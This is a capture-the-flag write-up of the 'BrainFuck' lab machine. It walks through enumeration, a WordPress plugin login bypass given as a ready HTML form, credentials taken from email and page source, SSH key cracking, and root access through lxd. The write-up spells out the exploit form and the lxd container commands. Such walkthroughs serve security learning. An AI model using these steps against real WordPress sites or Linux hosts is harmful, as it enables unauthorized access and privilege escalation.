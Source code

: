 # BrainFuck

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (38) (5).png" alt=""><figcaption></figcaption></figure>

We can add `brainfuck.htb` to our `/etc/hosts` file and visit the HTTP wesbites.

### Wordpress Ticket System

Website revealed a Wordpress site:

<figure><img src="../../../.gitbook/assets/image (40) (5).png" alt=""><figcaption></figcaption></figure>

Because this was a HTTPS website, we can take a look at the certificate first to find an email address.

<figure><img src="../../../.gitbook/assets/image (8) (3) (1) (2).png" alt=""><figcaption></figcaption></figure>

Looking at the alternate DNS names, we can find another hidden subdomain, which we'll visit later.

<figure><img src="../../../.gitbook/assets/image (3) (2) (2) (1).png" alt=""><figcaption></figcaption></figure>

We can run `wpscan --enumerate p,t,u` on this website. This returns a plugin that is outdated and exploitable.

<figure><img src="../../../.gitbook/assets/image (10) (3) (1).png" alt=""><figcaption></figcaption></figure>

For this version, there are SQL Injection and Privilege Escalation exploits available.

<figure><img src="../../../.gitbook/assets/image (13) (2) (4) (1).png" alt=""><figcaption></figcaption></figure>

Based on the PoC for the Privilege Escalation one, we have to create some HTML code that would allow us to login as the administrator. Earlier, we found an email address for the user `orestis`. We can use that for our exploit.

Here's the HTML frames we need:

```markup
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="admin">
        <input type="hidden" name="email" value="orestis@brainfuck.htb">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```

Afterwards, we just need to set this up on a Python server and visit the site. The username is based on the username of the first post we saw.&#x20;

<figure><img src="../../../.gitbook/assets/image (27) (4) (1).png" alt=""><figcaption></figcaption></figure>

Initially, nothing happens when we click the login button, however after refreshing the page, we are notified that we have logged in as the administrator.

<figure><img src="../../../.gitbook/assets/image (17) (7) (1).png" alt=""><figcaption></figcaption></figure>

### SMTP Creds

When viewing the plugins, we can find another plugin that enables SMTP on the Wordpress site.

<figure><img src="../../../.gitbook/assets/image (14) (2) (2) (2).png" alt=""><figcaption></figcaption></figure>

When viewing the SMTP configuration settings, we can find the username and password for port 110.

<figure><img src="../../../.gitbook/assets/image (12) (3) (1).png" alt=""><figcaption></figcaption></figure>

The password can be taken by viewing the page source to reveal the hidden value.

<figure><img src="../../../.gitbook/assets/image (39) (6).png" alt=""><figcaption></figcaption></figure>

We can then proceed to enumerate the SMTP instance.

### Reading Emails

We can sign in to the service on port 110.

<figure><img src="../../../.gitbook/assets/image (5) (4) (3).png" alt=""><figcaption></figcaption></figure>

Then, we can view the messages sent using `list`.

<figure><img src="../../../.gitbook/assets/image (37) (5).png" alt=""><figcaption></figcaption></figure>

We can read both the emails, and one of them has credentials for a forum page.

<figure><img src="../../../.gitbook/assets/image (33) (5).png" alt=""><figcaption></figcaption></figure>

These are probably credentials for the secret subdomain we found earlier.&#x20;

### Forum Page&#x20;

We can login to the forum page here using the credentials we found earlier. Then, we can view the pages that are present.

<figure><img src="../../../.gitbook/assets/image (22) (7).png" alt=""><figcaption></figcaption></figure>

Some of the forum pages mention sending SSH keys somehow.

<figure><img src="../../../.gitbook/assets/image (1) (1) (9).png" alt=""><figcaption></figcaption></figure>

There was also an encrypted few posts.

<figure><img src="../../../.gitbook/assets/image (19) (1) (1) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

There was clearly a URL within that, and it seems that numbers **are not being scrambled**. This means this is a letter-only cipher. After a bit of research and testing on CyberChef, Vignere cipher is the one used here.

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then, we can head to that website to find the `id_rsa` file for `orestis`.

<figure><img src="../../../.gitbook/assets/image (30) (5) (1).png" alt=""><figcaption></figcaption></figure>

The file is password encrypted, so we have to use `ssh2john.py` to convert this to a hash for `john` to crack.

<figure><img src="../../../.gitbook/assets/image (11) (1) (4) (1).png" alt=""><figcaption></figcaption></figure>

Then we can use `openssl rsa` to write the key out.

<figure><img src="../../../.gitbook/assets/image (7) (4) (2) (1).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can simply SSH in using this key.

<figure><img src="../../../.gitbook/assets/image (32) (1) (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### lxd

When enumerating using LinPEAS, we can see that the user is part of the `lxd` group.

<figure><img src="../../../.gitbook/assets/image (41) (4).png" alt=""><figcaption></figcaption></figure>

Being part of this group means that we can create and manage extra containers for this machine. The exploit path is to create a container where we have root privileges and it is mounted onto the main disk.

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation" %}

I downloaded an alpine distro to the machine. Then, we can execute the commands from HackTricks:

```bash
# import the image
lxc image import ./alpine*.tar.gz --alias myimage # It's important doing this from YOUR HOME directory on the victim machine, or it might fail.

# before running the image, start and configure the lxd storage pool as default 
lxd init

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

The last command would drop us into a root shell, where the `/root` directory has been mounted and we can grab the root flag.

<figure><img src="../../../.gitbook/assets/image (6) (7).png" alt=""><figcaption></figcaption></figure>
